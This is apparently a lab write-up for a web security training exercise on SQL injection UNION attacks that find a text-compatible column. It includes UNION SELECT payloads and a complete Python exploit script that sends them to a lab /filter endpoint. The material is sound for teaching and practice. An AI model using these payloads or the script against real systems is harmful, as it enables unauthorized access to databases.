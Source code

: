 ```yaml
---
title: '8 SQLi Lab'
description: 'SQL injection for identifying a column compatible with string data'
---
```



## SQL injection UNION attack, finding a column containing text

<div style="text-align: justify;">
  This lab demonstrates how to identify a column compatible with string data during a SQL injection attack. After determining the number of columns returned by the query (as done in the previous lab), the next step is to perform a `UNION SELECT` attack with a provided random string. By inserting the string into each column one by one and observing which query executes successfully, you can determine which columns accept text data. This is a crucial step before retrieving actual sensitive data from the database.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The `category` parameter in `/filter` is vulnerable to SQL injection.
- Determine the number of columns returned by the query (e.g. 3 columns using `'+UNION+SELECT+NULL,NULL,NULL--`).
- Extract the random string provided in the lab hint from the page.
- Replace each `NULL` with the dynamic string in separate attempts to find a text-compatible column (e.g. `'+UNION+SELECT+'abcdef',NULL,NULL--`).
- Once the correct column is identified, the lab is solved.
- This method is foundational for constructing full `UNION SELECT` attacks in later labs.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
import re

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """
    Check if Burp Suite is running and listening on the configured proxy.
    """
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def get_dynamic_string(url):
    """
    Fetch the base URL and extract the random string from the hint paragraph.
    Example: <p id="hint">Make the database retrieve the string: '2xO59V'</p>
    """
    try:
        res = requests.get(url, verify=False, proxies=proxies, timeout=10)
        res.raise_for_status()
        match = re.search(r"retrieve the string: '([^']+)'", res.text)
        if match:
            return match.group(1)
        else:
            print("[-] Could not extract dynamic string from hint.")
            sys.exit(1)
    except requests.RequestException as e:
        print(f"[-] Error while fetching base page: {e}")
        sys.exit(1)

def exploit_sqli(url, payload):
    """
    Send payload, then check base URL for success banner.
    """
    try:
        full_url = url.rstrip("/") + payload
        res = requests.get(full_url, verify=False, proxies=proxies, timeout=10)
        res.raise_for_status()

        # Check base URL again
        check_res = requests.get(url, verify=False, proxies=proxies, timeout=10)
        check_res.raise_for_status()
        return "Congratulations" in check_res.text

    except requests.RequestException as e:
        print(f"[-] Error while sending request: {e}")
        sys.exit(1)

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Extract the dynamic string
    dynamic_str = get_dynamic_string(url)
    print(f"[*] Extracted dynamic string: {dynamic_str}")

    # Step 3: Define SQL injection payload
    payload = f"/filter?category='+UNION+SELECT+NULL,'{dynamic_str}',NULL--"
    print(f"[*] Using payload: {payload}")

    # Step 4: Attempt exploitation
    if exploit_sqli(url, payload):
        print("[+] Lab solved! 🎉")
    else:
        print("[-] Payload sent but lab not solved.")

if __name__ == "__main__":
    main()
```

